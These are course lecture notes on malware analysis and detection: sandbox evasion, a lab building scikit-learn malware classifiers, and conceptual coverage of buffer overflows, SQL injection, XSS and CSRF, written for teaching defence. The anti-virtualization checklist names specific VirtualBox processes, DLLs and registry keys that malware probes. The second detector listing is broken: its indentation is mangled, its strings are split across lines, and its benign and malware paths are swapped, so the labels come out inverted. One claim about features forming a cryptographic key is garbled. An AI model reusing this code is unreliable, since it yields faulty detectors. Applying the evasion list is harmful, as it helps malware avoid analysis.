• anti-sleep: Cuckoo skips sleeps that are launched within the first seconds of a process execution

\colorbox{green}{Reverse-Turing test}: computer \colorbox{yellow}{decides} if it is interacting with \colorbox{yellow}{computer or human}:\\
• e.g., mouse monitor: malware don’t start until movements/clicks events are observed:\\
• anti-mouse monitor: Cuckoo emulates human interaction (move the mouse cursor, click on mouse buttons, click
on dialogues)

\colorbox{green}{Anti-virtualization}: very difficult to deal with\\
• \colorbox{yellow}{Find processes}: VBoxService.exe, vmtoolsd.exe\\
• \colorbox{yellow}{Find files or devices}: \textbackslash Device\textbackslash VBoxMouse\\
• Detect \colorbox{yellow}{available libraries}: LoadLibrary('VBoxOGL.dll')\\
• Detect \colorbox{yellow}{BIOS version}\\
• Detect \colorbox{yellow}{disk description}: IOCTL\_STORAGE\_QUERY\_PROPERTY,
IOCTL\_SCSI\_MINIPORT\\
• Detect \colorbox{yellow}{disk size}: IOCTL\_DISK\_GET\_DRIVE\_GEOMETRY\\
• Detect \colorbox{yellow}{guest tools}\\
• Find \colorbox{yellow}{windows}: FindWindow('VBoxTrayToolWnd')\\
• Check \colorbox{yellow}{registry keys}:\\
HKLM\textbackslash HARDWARE\textbackslash Description\textbackslash System\textbackslash VideoBiosVersion

To monitor API calls, Cuckoo uses \colorbox{pink}{inline hooks}\\
Replacing the first bytes of a function to hijack it to a different location\\
\colorbox{pink}{These trampolines can be easily detected}

\includegraphics[width=.5\linewidth]{trampolines.png}

Check the registry;

\includegraphics[width=.7\linewidth]{regs.png}

Sleep;

\includegraphics[width=.7\linewidth]{sleep.png}

The RDG Tejon Crypter obfuscation tool;

\includegraphics[width=.7\linewidth]{obfs.png}

Pafish is a tool that employs several techniques to detect sandboxes and analysis
environments in the same way as malware families do;

\includegraphics[width=.7\linewidth]{pafish}

al-khaser is a PoC tool that performs a bunch of common malware tricks to detect sandboxes;

\includegraphics[width=.7\linewidth]{alkhaser.png}

See also the MITRE ATT\&CK Framework

\chapter{Lab 5 - Building a Machine Learning Detector}

Detectors are widely used to inspect unknown binaries to infer whether they
could be malicious or not. When using ML, such detectors are trained with
known benignware and malware to help the detector understanding the difference
between them, so they can then later inspect an unknown binary and
categorize it with a certain degree of accuracy.

\section{Basic Detector}

When training ML models, our training set could include dozens, thousands
or even millions of samples with as many features: for our first basic detector,
however, let’s just assume we have a dataset including eight samples, with two
features each: packed, which says if the sample is somehow compressed, and
contains encrypted, which states if the sample includes encrypted content.

In the code shown below, we will train a ML decision tree classifier using a
simple training set and then we will run the detector on a new sample to see
the result of the classification

\begin{lstlisting}[language=python]
  #!/usr/bin/python

  # Importing stuff we need
  from sklearn import tree # decision tree module
  from sklearn.feature_extraction import DictVectorizer # translates readable training data in "DICTionary form" to the Vector representation

  # From those imported libraries, we instantiate two classes
  classifier = tree.DecisionTreeClassifier() # our detector, with sklearn's default decision tree settings
  vectorizer = DictVectorizer(sparse=False) # sparse vectors save memory but are hard to use, hence we set this value to 'false'

  # Initializing eight training samples with two features each, "packed" and "contains_encrypted"
  training_examples = [
  {'packed': 1, 'contains_encrypted': 0},
  {'packed': 0, 'contains_encrypted': 0},
  {'packed': 1, 'contains_encrypted': 1},
  {'packed': 1, 'contains_encrypted': 0},
  {'packed': 0, 'contains_encrypted': 1},
  {'packed': 1, 'contains_encrypted': 0},
  {'packed': 0, 'contains_encrypted': 0},
  {'packed': 0, 'contains_encrypted': 0},
  ]

  # Initializing label vector for each example. 0 is benign, 1 is malicious
  ground_truth = [1, 1, 1, 1, 0, 0, 0, 0] # this means that the first sample in the training set is malicious, the second is malicious as well, etc.

  # Training the classifier
  vectorizer.fit(training_examples) # initializes vectorizer with the training data

  X = vectorizer.transform(training_examples) # transforms training_examples to vector form
  y = ground_truth # just by convention, not really needed
  classifier.fit(X, y) # actually trains the classifier

  # Now that we have trained our classifier, let's test it with a new sample
  test_example = {'packed': 1, 'contains_encrypted': 0} # our test example will be packed but won't contain encrypted data

  test_vector = vectorizer.transform(test_example)
  print(classifier.predict(test_vector)) # tries to predict whether the sample is malicious or not and prints the result
\end{lstlisting}

It is now time to visualize the decision tree, to see with your own eyes how
this decision was made. Open the previous file (detector1.py) and append
these lines of code.

\begin{lstlisting}[language=python]
  with open("classifier.dot", "w") as output_file: # opens (or creates, if it does not exist), the classifier.dot file to Write content in it.
  tree.export_graphviz(
  classifier,
  feature_names=vectorizer.get_feature_names(),
  out_file=output_file
  ) # sklearn method that exports a decision tree in DOT format

  import os

  # executes this command in REMnux to convert the file then open the image
  os.system("dot classifier.dot -Tpng -o classifier.png; xdg-open
  classifier.png")
\end{lstlisting}

If you now execute detector1.py with the new added code, hopefully the
decision tree has just been displayed on your screen;

\includegraphics[width=.7\linewidth]{lab5 decision tree.png}

Looking at the root node, the first line asks a question: ”is ’packed’ less or
equal than 0.5?” The answer to this question makes the detector decide what
path to take (we say that the node splits on that feature).

On the second line,
gini (gini index) indicates how much inequality there is between the malware
and benignware training examples that match that node. Lastly, on the third
line, it is shown how many samples match that node.

You will notice that the leaf nodes are slightly different: in fact, all decisions
have already been made. The third row in such nodes shows an array: the first
value is the number of benignware samples that match that node, whilst the
second value is the number of malware samples.

\section{Real Detector}
In real-case scenarios it would be unrealistic to think that two simple features,
like packed and contains encrypted, would suffice. Moreover, we may have
different types of features. The most common ones are:
\begin{itemize}
  \item  String Features.

        Basically arrays of characters with a minimum length.
        Sklearn, for example, can understand them in the Dictionary form.
  \item Portable Executable (PE) Header Features

        Extracted from metadata of the target executable and/or libraries. They can serve us well
        even when the binary is packed, because they can tell us the layout of the
        binary, how much space does it take on disk and on the RAM when it is
        executed.
  \item Import Address Table (IAT) Features

        List of functions and libraries
        imported by a given binary. These features can contain useful information
        about program behaviour. However, they usually need to be complemented by
        other types of features, because the IAT might be obfuscated
        or the binary might import only common benign functions and libraries.
  \item N-grams

        List of features in the order in which they appear in the binary.
        On a given sequence, we take N consecutive elements and bind them in a
        single, aggregated feature, that is called N-gram. For example, if we had
        the sequence [1, 2, 5, 7, 8, 11, 16] and we wanted to extract 3-grams, we
        would have [(1, 2, 5), (2, 5, 7), (5, 7, 8), (7, 8, 11), (8, 11, 16)] as our
        features.
\end{itemize}

Also, as stated before, in a real-world scenario, we might have even millions
of features. To deal with that, we reduce their number to N features by
concatenating each of our features into N different features that will be
hashed. This is called the ”hashing trick”.

Of course this has some drawbacks, for example,
it is impossible to get back the original data once it is hashed, but the results
when running the detector are surprisingly accurate enough.

Let’s now implement a detector that looks for string features with 5 characters as minimum length.

\begin{lstlisting}[language=python]
#!/usr/bin/python

# Importing stuff we need
import os
import sys
import pickle
import argparse
import re
import numpy
from sklearn.ensemble import RandomForestClassifier
from sklearn.feature_extraction import FeatureHasher

# We define a function that will extract the strings by using regular expressions
def get_string_features(path, hasher):
  chars = b" -~" # " -~" is the set of characters that goes from %20
  (whitespace) to %7E (tilde).
  min_length = 5
  string_regexp = b'[%s]{%d,}' % (chars, min_length) # this regex will match every sequence of characters included in the set above, that is at least 5 chars long
 file_object = open(path, 'rb')
 data = file_object.read()
 pattern = re.compile(string_regexp) # compile() transforms the regex string in objects that can be used for pattern matching
 strings = pattern.findall(data) # returns an array that includes all strings that match our regex

# We want to store string features in dictionary form...
string_features = {}
for string in strings:
  string_features[string] = 1 # ...so for each string found, an entry in string_features is created. For example, if we had a "foobar" string, we would have that string_features[foobar]=1.
hashed_features = hasher.transform([string_features]) # hashing trick
# Unfortunately, features are returned as a list of arrays, and in a sparse format nonetheless.
# We then need to get them back into a dense numpy vector.
hashed_features = hashed_features.todense() # returns a dense matrix
hashed_features = numpy.asarray(hashed_features) # returns a numpy vector
hashed_features = hashed_features[0] # returns the actual feature vector
# The following lines print some info and return the array
print(f"Extracted {len(string_features)} strings from {path}")
return hashed_features

# We still need to train our detector! But first, let's write a function to build our training model.
def get_training_data(benign_path, malicious_path, hasher):
# This function will help us get absolute file paths for a given directory
  def get_training_paths(directory):
    targets = []
    for path in os.listdir(directory):
      targets.append(os.path.join(directory, path))
    return targets
  malicious_paths = get_training_paths(malicious_path) # gets absolute file paths for malicious training samples
  benign_paths = get_training_paths(benign_path) # gets absolute file paths for benign training samples
  X = [
    get_string_features(path, hasher) for path in malicious_paths + benign_paths
  ] # do you recall get_string_features()? Yes, we defined it earlier! For each malicious samples, it gets all string features that match our criteria
  y = (
    [1 for i in range(len(malicious_paths))] + [0 for i in range(len(benign_paths))]
  ) # if the sample was labeled as malicious, assign 1, otherwise 0. Remember that we already know if these samples are malicious or not. This is, in other words, our ground truth.
  return X, y # returns our training model

# We can now train our detector using the training model we generated!
def train_detector(X, y, hasher):
  classifier = RandomForestClassifier() # sets the classifier as a decision tree that improves predictive accuracy and controls over-fitting
  classifier.fit(X, y) # trains the detector
  pickle.dump((classifier, hasher), open("saved_detector.pkl", "wb+")) # we save the detector in the saved_detector.pkl file, for future use

  # With our new detector, we can try to detect malware in new unknown
  binaries. Let's write a function that does it.
  def scan_file(path):
    if not os.path.exists("saved_detector.pkl"): # we look for our saved detector, and exit if we don't find it
    print("Train a detector before scanning files.")
    sys.exit(1)
  with open("saved_detector.pkl", "rb") as saved_detector:
    classifier, hasher = pickle.load(saved_detector) # if the file is found, classifier and hasher are loaded from the pickle file
  features = get_string_features(path, hasher) # we extract string features from the unknown binary
  result_proba = classifier.predict_proba([features])[0][1] # the classifier tries to infer whether the binary is malicious or not, given the extracted features. The second value of the first element (i.e. [0][1]) from the returned array corresponds to such probability
  if result_proba > 0.5:
    print(f"It appears this file is malicious! Estimated accuracy:
      {str(result_proba * 100)}%. Original result_proba value:
      {str(result_proba)}")
  else:
    print(f"It appears this file is benign. Estimated accuracy: {str((1 -
      result_proba) * 100)}%. Original result_proba value:
      {str(result_proba)}")

  # We defined all functions we need, however we still have to write our core program that calls them.
  parser = argparse.ArgumentParser("get windows object vectors for files")
  # Our python program will ask for three parameters upon execution (see "help=" field):
  parser.add_argument("--malware_paths", default=None, help="Path to malware training files")
  parser.add_argument("--benignware_paths", default=None, help="Path to benignware training files")
  parser.add_argument("--scan_file_path", default=None, help="File to scan")
  args = parser.parse_args() # parses arguments into the args variable
  hasher = FeatureHasher(20000) # our hasher will include 20000 hashed features when performing the hashing trick
  if args.malware_paths and args.benignware_paths: # checks if paths for both malware and benignware training samples have been specified
    X, y = get_training_data(args.benignware_paths, args.malware_paths, hasher)
    train_detector(X, y, hasher)
  elif args.scan_file_path: # if benignware and malware paths have NOT been specified, checks if path for the unknown binary has been specified
    scan_file(args.scan_file_path)
  else:
    print("[*] You did not specify a path to scan, nor did you specify paths to malicious and benign training files.")
    print("Please specify one of these to use the detector.\n")
    parser.print_help()
\end{lstlisting}

As you may have understood, we will need to run this program at least two
times: the first time we will pass the benignware and malware paths to train the
detector, while the second time we will only pass the file to be scanned.

\section{Evaluating Malware Detectors}

\subsection{ROC Curves}
Using sklearn, not only we can implement a detector, but we can also evaluate
it, for example by means of Receiver Operating Characteristic (ROC) curves.

These plots measure the changes in a detector’s true positive rate (i.e., how
many times the detector successfully detected malware) and false positive rate
(i.e., how many times the detector mistaken a benignware for a malware).

However, to obtain a realistic evaluation, we cannot use our saved\_detector.pkl
file from the previous part of the lab, because we had trained it using all
of our samples, so there are no “unseen” samples to test it.

Hence, we have to
define a training set, which will be used to train our model, and a test set: after
training, our detector will scan all samples in the test set, trying to infer if they
are malicious or not based on the model, without any previous knowledge on
them.

%TODO
(please see the lab sheet for code modifications)

\includegraphics[width=.6\linewidth]{ROC.png}

\subsection{K-Fold Cross Validation}

You would have
noticed that the ROC curve is not always the same, depending on the samples
that were selected for test and training.

Calculating different ROC curves could
indeed help us in understanding the real effectiveness of our detector. Let’s
automate it by performing a K-Fold cross validation.

In K-fold cross validation, we split our sample set in K subsets called folds,
and use some folds to train our model and some others to test it. We then
evaluate our model and, keeping the same folds, we assign them to different
roles.

For example, if we were to split our dataset in three folds, namely Fold1,
Fold2 and Fold3, at first we could use Fold2 and Fold3 to train our model and
Fold1 to test it. Then we would start another evaluation with Fold1 and Fold3
as training sets and Fold2 as testing set. Lastly, we would train the model using
Fold1 and Fold2, and test it using Fold3. This would be a proper 3-Fold cross
validation

%TODO
(please see the lab sheet for code modifications)

\includegraphics[width=.6\linewidth]{kfold.png}

\subsection{Performance Metrics}

There are lots of other metrics, scores and functions that can help us measure
our solution’s performance. In this section we will see the precision-recall
curve, the confusion matrix and the F1 Score.

\subsubsection{Precision-Recall curve}

The precision-recall curve shows the tradeoff between precision and recall at
different thresholds. High precision indicates a low false positive rate, whilst
high recall indicates a low false negative rate. This means that the higher these
values are, the most accurate is our detector.

Precision (P) is defined as the number of true positives (tp) over the
number of true positives plus the number of false positives (fp).

\[
  P = \frac{tp}{tp + fp}
\]

Recall (R) is defined as the number of true positives (tp) over the number
of true positives plus the number of false negatives (fn).

\[
  R = \frac{tp}{tp + fn}
\]


\subsubsection{Confusion Matrix}

A confusion matrix allows us to instantly glance at how many samples were
correctly identified, and at how many were not (namely, false positives or
negatives).

In a general classification problem, the confusion matrix allows us to
see how many elements were classified within a certain category, allowing us to
distinguish between correct classifications and mistaken ones.

More formally, a confusion matrix C is such that $C_{i,j}$ is equal to the number
of observations known to be in group $i$ and predicted to be in group $j$. This
means that the main diagonal of the confusion matrix always lists the elements
that were correctly classified.

\subsubsection{F1 Score}

Also known as balanced F-score or F-measure, the F1 score is a weighted average
(harmonic mean) of the precision (P) and recall (R). The best value for a F1
score is 1, whilst the worst value is 0. Precision and recall (which we defined
above) contribute equally in determining such score.

The formula for calculating the F1 score is:
\[
  F1 = 2 \cdot \frac{P \cdot R}{P + R}
\]

\subsection{Using Performance Metrics in our Evaluator}

%TODO
(please see the lab sheet for code modifications)

you should see the F1 score and the confusion matrix
printed on the terminal, and the precision-recall plot should appear on the
screen

\includegraphics[width=.6\linewidth]{lab5 prec curve.png}

\chapter{Lecture 6 - Buffer Overflow, SQL Injection, and Cross-Site Scripting}



\section{Memory Layout}

Building an exploit requires knowledge of the specific CPU and operating system of
the target.
We will just cover x86 and Linux, but the methods work for other CPUs and OSs.
Some details are very different, but the concepts are the same.

\subsection{The C call stack}

When a \colorbox{yellow}{function call} is made, the return address is put on the stack.\\
Often the values of parameters are put on the stack.\\
Usually, the function saves the stack frame pointer (on the stack).\\
Local variables are on the stack.

On Linux (x86) the stack grows from \colorbox{yellow}{high addresses to low}.\\
Pushing something on the stack moves the Top Of Stack towards the address 0.

\includegraphics[width=.6\linewidth]{lec6 callStack.png}

Virtual memory in 32-bit architecture is 4GB\\
A process is only aware of itself - it can use all that it sees\\
The real addresses are different everytime a process is running

During a program running;

\includegraphics[width=.6\linewidth]{lec6 callStack program running.png}

The \colorbox{green}{stack} is where \colorbox{yellow}{function calls} are handled\\
The heap grows opposite to the stack\\
The \colorbox{green}{heap} is where libraries \& \colorbox{yellow}{dynamic contents are handled}

Stack Vs Heap;

\includegraphics[width=.6\linewidth]{stack vs heap.png}

The stack is LIFO

A \colorbox{green}{stack frame};

\includegraphics[width=.6\linewidth]{lec6 stack frame.png}

Every function has one - it is all the function sees - it can use all that it sees

The \colorbox{green}{base pointer} is the opposite of the stack pointer; points to the bottom of the stack\\
you have to \colorbox{yellow}{keep track} of it so that it can be \colorbox{yellow}{restored when the function is ending}

\includegraphics[width=.8\linewidth]{lec6 stack frame eg.png}

The stack when calling a function;

\includegraphics[width=.8\linewidth]{lec6 when calling a function.png}

Calling function:\\
- Push arguments onto the stack (\colorbox{yellow}{in reverse})\\
- Push the address of the instruction you want to run after control returns to you\\
- Jump to the function

Called function:\\
- Push the old frame pointer onto the stack (\%ebp)\\
- Set my frame pointer (\%ebp) to where the end of the stack is right now (%esp)\\
- Push my local variables onto the stack\\

Called function (to return):\\
- Deallocate local variables: \%esp = \%ebp\\
- Restore base pointer: pop \%ebp\\
- Jump back to where they wanted us to: \%eip = 4(\%ebp)

Calling function (on return):\\
- Remove arguments from stack

\section{Buffer Overflow}

Buffer =\\
• \colorbox{yellow}{Contiguous} set of a given data type\\
• Common in C\\
• All strings are buffers of char’s

Overflow = Put more into the buffer than it can hold

Examples;

\includegraphics[width=.6\linewidth]{lec6 buffers eg1.png}

\colorbox{yellow}{ebp is replaced} with ASCII representation of remaining characters\\
when restoring the pointer, it will read \colorbox{yellow}{00293a6f}

\includegraphics[width=.6\linewidth]{lec6 buffers eg2.png}

\includegraphics[width=.6\linewidth]{lec6 buffers eg3.png}

\colorbox{yellow}{use fgets} instead of gets to ensure buffer is not overflown


In the previous examples, we were providing our own strings\\
But they come from users in myriad of ways\\
• Text input\\
• Packets\\
• Environment variables\\
• File input…


Strcpy and gets will let you write as much as you want (til a NUL)

\section{Code Injection}

\includegraphics[width=.6\linewidth]{lec6 code injection high level idea 1.png}

\includegraphics[width=.6\linewidth]{lec6 code injection high level idea 3.png}

you want the return pointer to go to the malicious code

nontrivial; pulling off this attack requires getting a few things really right
(and some things sorta right)\\
The key to defending it will be to make the hard parts really hard

\subsection{Challenge 1: Loading code into memory}

It must be the \colorbox{yellow}{machine code instructions} (i.e., already compiled and ready to run)

We have to be careful in how we construct it:\\
• It \colorbox{yellow}{can’t contain any all-zero bytes}, otherwise, sprintf / gets / scanf / … will stop copying.\\

How could you write assembly to never contain a full zero byte?\\
• It can’t make use of the loader (we’re injecting)\\
• It can’t use the stack (we’re going to smash it)

\includegraphics[width=.6\linewidth]{lec6 loading code into memory.png}

\colorbox{yellow}{shell code} does not have a null

Goal: full-purpose shell\\
• The code to launch a shell is called “shell code”\\
• It is nontrivial to it in a way that works as injected code\\
• No zeroes, can’t use the stack, no loader dependence\\
• There are many out there\\
• And competitions to see who can write the smallest

Goal: privilege escalation\\
• Ideally, they go from guest (or non-user) to root

\subsection{Challenge 2: Getting our injected code to run}

We can’t insert a “jump into my code” instruction\\
• We have to use whatever code is already running

\includegraphics[width=.4\linewidth]{lec6 challenge 2 2.png}

\includegraphics[width=.4\linewidth]{lec6 challenge 2 3.png}

We have to be precise!

\includegraphics[width=.6\linewidth]{lec6 challenge 2 4.png}

\colorbox{yellow}{nop} is 'no operation' (x90)

\subsection{Challenge 3: Finding the return address}

If we don’t have access to the code, we \colorbox{yellow}{don’t know how far the buffer is from the
  saved \%ebp}

One approach: just try a lot of different values!\\
• Worst case scenario: it’s a 32 (or 64) bit memory space, which means 232 (264)
possible answers

But \colorbox{pink}{without address randomization}:\\
• The \colorbox{yellow}{stack always starts from the same, fixed address}\\
• The \colorbox{yellow}{stack will grow}, but usually it \colorbox{yellow}{doesn’t grow very deeply} (unless the code is heavily recursive)

\includegraphics[width=.4\linewidth]{lec6 challenge3}



\subsection{Defence}

Our challenges \& defenses;

Putting code into the memory (no zeroes)\\
• Option: Make this detectable with \colorbox{green}{canaries}

Getting \%eip to point to our code (dist but to eip)\\
• Non-executable stack doesn’t work so well

Finding the return address (guess the raw addr)\\
• \colorbox{green}{Address Space Layout Randomization}

\colorbox{yellow}{Good coding practices}

\subsubsection{Canaries}

random values \colorbox{yellow}{put in the stack by the kernel during runtime}\\
they are \colorbox{yellow}{checked during runtime} to ensure that they are \colorbox{yellow}{not overwritten}

\includegraphics[width=.3\linewidth]{canary.png}

\textbf{Values;}

\colorbox{green}{Terminator} canaries (CR, LF, NULL, -1)\\
• Leverages the fact that scanf etc. \colorbox{yellow}{don’t allow these}\\
\colorbox{green}{Random} canaries\\
• Write a \colorbox{yellow}{new random value} @ each process start\\
• Save the \colorbox{yellow}{real value somewhere in memory}\\
• Must \colorbox{yellow}{write-protect} the stored value\\
\colorbox{green}{Random XOR canaries}\\
• Same as \colorbox{yellow}{random canaries}\\
• But \colorbox{yellow}{store canary XOR some control info}, instead - \colorbox{pink}{confuse attacker}

\subsubsection{Address Space Layout Randomization (ASLR)}

Basic idea: \colorbox{yellow}{change the layout of the stack}\\
Slow to adopt;\\
• Linux in 2005\\
• Vista in 2007 (off by default for compatibility with older software)\\
• OS X in 2007 (for system libraries), 2011 for all apps\\
• iOS 4.3 (2011)\\
• Android 4.0\\
• FreeBSD: no


\section{SQL Injection}

At its core, a \colorbox{green}{database} is a \colorbox{yellow}{systematic collection of data}.\\
• These data are \colorbox{yellow}{structured} and stored in such a way that we can easily access,
manage, and update them.

Imagine a library.\\
In this library, instead of books, we have data.\\
• The library's catalog, which helps you find a particular book, is akin to a database
management system, guiding us to the data we need

\colorbox{green}{Relational} databases \colorbox{yellow}{organize data into tables}, akin to spreadsheets, where each
row represents a unique record, and each column represents a data field.

\colorbox{green}{Non-Relational} Database, often referred to as NoSQL databases, are designed for a
\colorbox{yellow}{wide variety} \colorbox{yellow}{of data models}, including document, graph, key-value, and widecolumn stores.

Databases are the \colorbox{pink}{backbone} of any system, holding everything from user
information and preferences to inventory data and financial records.

The \colorbox{green}{schema} is essentially a \colorbox{yellow}{blueprint} of the database's structure.\\
• It defines the tables, the fields within those tables, the type of data each
field can hold (such as integer, text, date, etc.), and the relationships
between tables.

The schema ensures that the data entered into the database adheres to
certain rules, maintaining the integrity and consistency of the data.

\colorbox{green}{SQL} is the lingua franca for \colorbox{yellow}{communicating} with relational databases, allowing us
to execute a wide array of data operations with precision and efficiency.

SQL's capabilities are vast and varied, covering every aspect of database interaction
one could think of.

At its most basic, SQL enables us to query a database, which means retrieving
specific information based on our requirements.

This could be as simple as asking, 'What are the names and emails of all users in our
database?' SQL provides us with the tools to not only ask such questions but to
receive answers in a structured and understandable format.

\colorbox{green}{SQL Injection} is a cybersecurity vulnerability that allows attackers to \colorbox{yellow}{interfere with
  the queries} that an application makes \colorbox{yellow}{to its database}.\\
• It typically occurs when an application uses unvalidated or unescaped user input
within SQL statements.

This flaw can lead to \colorbox{pink}{unauthorized access to sensitive data}, such as passwords,
credit card numbers, or personal user information.It is one of the oldest, most
prevalent, and dangerous web application vulnerabilities.

SQL Injection exploits the dynamic execution of SQL queries, where \colorbox{yellow}{inputs are not
  properly sanitized} or checked before being embedded in SQL statements.

Attackers manipulate SQL queries by inserting or "injecting" malicious SQL code
into input fields, such as login forms, search boxes, or URL parameters.

When the server processes these inputs, the \colorbox{yellow}{malicious SQL code is executed},
potentially altering database operations.

Applications that \colorbox{yellow}{directly concatenate} user inputs into SQL queries without proper
handling are \colorbox{yellow}{especially vulnerable}.

\includegraphics[width=.6\linewidth]{sql i eg1.png}

\includegraphics[width=.6\linewidth]{sql i eg2.png}

\includegraphics[width=.6\linewidth]{sql i eg2 2}

\includegraphics[width=.6\linewidth]{sql i eg3.png}

\section{Cross-site Scripting (XSS)}

Malicious scripts are \colorbox{yellow}{injected into trusted web sites}

An attacker uses a web application to send malicious code, generally in the form of a browser
side script,to a different end user

The end user’s browser has \colorbox{pink}{no way to know that the script should not be trusted}, and will
execute the script

Because it thinks the script came from a trusted source, the malicious script can \colorbox{pink}{access} any
cookies, session tokens, or other sensitive information retained by the browser and used with that
site

\includegraphics[width=.6\linewidth]{xss.png}

\section{Cross-site Request Forgery (CSRF)}

A malicious web site, email, blog, instant message, or program that causes a user’s web browser
to perform an \colorbox{yellow}{unwanted action} on a trusted site for which the user is \colorbox{yellow}{currently authenticated}

CSRF attacks are used by an attacker to make a target system perform a function via the
target’s browser without knowledge of the target user

Unlike XSS, which exploits the trust a user has for a particular site, CSRF exploits the \colorbox{yellow}{trust
  that a site has in a user’s browser}

\includegraphics[width=.9\linewidth]{csrf.png}

\chapter{Lecture 7 - Machine Learning for Malware Analysis \& Detection}

We will cover only some notions of machine learning useful for this course

\section{Basics of Machine Learning}

Humans have always dreamt of teaching computers to reason and make “intelligent” decisions in the way that humans do;\\
drawing generalizations and distilling concepts from complex information sets without explicit instructions

\colorbox{green}{Machine learning} (ML) refers to one aspect of this goal:\\
• \colorbox{yellow}{algorithms and processes that “learn”}\\
i.e., being able to generalize past data and experiences to predict future outcomes

At its core, ML is a set of \colorbox{yellow}{mathematical techniques}, implemented on computer systems, enabling:\\
• a process of information mining,\\
• \colorbox{yellow}{pattern discovery},\\
• and drawing inferences from data

Some definitions of ML currently accepted broadly:\\
• Focus on data science: \\
“Machine Learning is the science (and art) of programming computers so they can learn from data.”\\
• A slightly more general definition:\\
“[Machine Learning is the] field of study that gives computers the ability
to learn without being explicitly programmed.” (Arthur Samuel, 1959)\\
• And a more engineering-oriented one:\\
“A computer program is said to learn from experience E with respect to
some task T and some performance measure P, if its performance on T, as
measured by P, improves with experience E.” (Tom Mitchell, 1997)

\includegraphics[width=.6\linewidth]{ML venn.png}

ML is made up of data, features of that data and algorithms that can process it

\includegraphics[width=.6\linewidth]{ai ml.png}

ML is great for:\\
• Problems for which existing solutions require a lot of fine-tuning or long lists of rules:\\
one ML algorithm can often simplify code and perform better than the traditional approach\\
• Complex problems for which using a traditional approach yields no good solution:\\
the best ML techniques can perhaps find a solution\\
• Fluctuating environments: a ML system can adapt to new data\\
• Getting insights about complex problems and large amounts of data

An example, within cyber-security, requiring a long list of rules is Anti-virus.

\includegraphics[width=.6\linewidth]{ml process.png}

\colorbox{green}{Supervised} ML methods adopt a \colorbox{green}{Bayesian approach} to knowledge discovery:\\
using \colorbox{yellow}{probabilities of previously observed events} to \colorbox{yellow}{infer} the probabilities of \colorbox{yellow}{new events}

\colorbox{green}{Unsupervised} methods draw \colorbox{yellow}{abstractions from unlabeled datasets} and \colorbox{yellow}{apply} these to new data\\
Both families of methods can be applied to problems of classification (assigning
observations to categories) or regression (predicting numerical properties of an observation)

Supervised:\\
• \colorbox{yellow}{known} number of classes\\
• learning from a labeled training set\\
• used to classify future observations

Unsupervised clustering:\\
• \colorbox{yellow}{unknown} number of classes\\
• no prior knowledge\\
• finds “natural” grouping of instances

\includegraphics[width=.8\linewidth]{learning ml.png}

\colorbox{green}{Classification}: given a labeled dataset, find a model that \colorbox{yellow}{separates instances into classes}\\
\colorbox{green}{Regression}: given some points, try to \colorbox{yellow}{generalize and predict} real-valued numbers\\
\colorbox{green}{Clustering}: given an \colorbox{yellow}{unlabeled} dataset, try to \colorbox{yellow}{group} similar elements

\includegraphics[width=.8\linewidth]{apps ml.png}

\includegraphics[width=.5\linewidth]{ml algos.png}

\includegraphics[width=.9\linewidth]{ml algo decision.png}

We can classify ML’s \colorbox{pink}{use cases} in information security into two broad \colorbox{cyan}{categories}, namely pattern recognition and anomaly detection

In \colorbox{green}{pattern recognition}, we try to \colorbox{yellow}{discover} explicit or latent \colorbox{yellow}{characteristics hidden} in the data:\\
• these characteristics, when distilled into feature sets, can be used to teach an algorithm to recognize other forms of the data that exhibit the same set of characteristics\\
• examples: spam detection, malware and botnet detection

\colorbox{green}{Anomaly detection} approaches try to establish a \colorbox{yellow}{notion of normality} that describes most (e.g., more than 95\%) of a given dataset:\\
• \colorbox{yellow}{deviations} from this normality of any sort will be detected as \colorbox{green}{anomalies}\\
• examples: network outlier detection, user authentication

\section{Steps for Building an ML-based Detector}

Whereas traditional algorithms tell the computer what to do, ML systems learn how to solve a problem by examples

e.g., ML security detection systems can be trained to determine whether a file is bad or good by learning from examples of good and bad files

The promise of ML systems for computer security is that they \colorbox{yellow}{automate the work of creating signatures}:\\
• \colorbox{pink}{potential to perform more accurately} than signature-based approaches to malware detection, \colorbox{pink}{especially on new}, previously-unseen malware

The \colorbox{cyan}{workflow} to build any ML–based malware detector boils down to these steps:

1. \colorbox{yellow}{Collect} examples of malware and benignware (goodware):\\
• these examples (called training examples) are used to train the ML system to recognize malware\\
2. \colorbox{yellow}{Extract features} from each training example to represent the example as an array of numbers:\\
• design good features that will help the ML system making accurate inferences\\
3. \colorbox{yellow}{Train} the ML system to recognize malware using the extracted features\\
4. \colorbox{yellow}{Test} the approach on some data not included in the training examples to see how well the detection system works

\subsection{Gathering Training Examples}

An ML malware detector’s \colorbox{pink}{ability} to recognize suspicious binaries \colorbox{pink}{depends heavily on the quantity} \colorbox{pink}{and quality} of training examples:\\
• therefore, when building ML–based detectors, \colorbox{pink}{most of the time is spent in gathering} training examples\\
• the more examples you feed our system, the more accurate it’s likely to be

The quality of the training examples is also important:\\
• collected malware and benignware samples \colorbox{yellow}{should mirror} the kind of malware and benignware we expect the detector to see:\\
• e.g., if we want to detect specific threat actor group malware or a class, we must collect as much malware as possible from that group or class

Similarly, the benign training examples we feed in the system should mirror the kinds of benign files we expect to find in real scenarios:\\
• e.g., if we are working on detecting malware on a university network, we should train it with a broad sampling of the benignware used by students and staff, e.g.:\\
• computer games, document editors, custom software, etc.

What to look for:\\
• Freshness?\\
• Quality? Verified?\\
• Quantity?\\
• Which OS?\\
• Binaries or features?\\
• Free/Paid?\\
• Public/Underground? Legally shared?\\
• Static or dynamic features?\\
• CVS or JSON or...?\\
• (and many others...)

Some malware datasets:\\
• Virus Share\\
• Virus Total\\
• Androzoo\\
• theZoo - A Live Malware Repository\\
• Microsoft Malware Classification Challenge\\
• EMBER dataset

\subsection{Extracting Features}

To classify files as good or bad, we train ML systems by showing them features of software binaries:\\
these are file attributes that will help the system distinguish between good and bad files

\colorbox{cyan}{Examples}:\\
• whether it’s digitally signed\\
• the presence of malformed headers\\
• The presence of encrypted data

To obtain these features, we need to \colorbox{yellow}{extract} them from the binaries:\\
• we might write specific code to determine whether a file is digitally signed, has malformed headers, contains encrypted data

Previous features can be relevant as they can help create a digital, cryptographic key
(like a public-private pair) to \colorbox{pink}{uniquely identify} a malware creator.

When selecting features, we should aim at choosing the ones that \colorbox{yellow}{represent our best guess}:\\
as to what might help an ML system distinguish bad files from good files:\\
e.g., the feature “contains encrypted data” might be a good marker for malware\\
malware often contains encrypted data, and we’re guessing that benignware will contain encrypted data more rarely

Good features:\\
• highlight \colorbox{pink}{commonalities} between members of a class\\
• highlight \colorbox{pink}{differences} between members of different classes

\colorbox{yellow}{We shouldn’t use too many features}, namely the set of features is too large relative to the number of training examples:\\
this is the curse of dimensionality\\
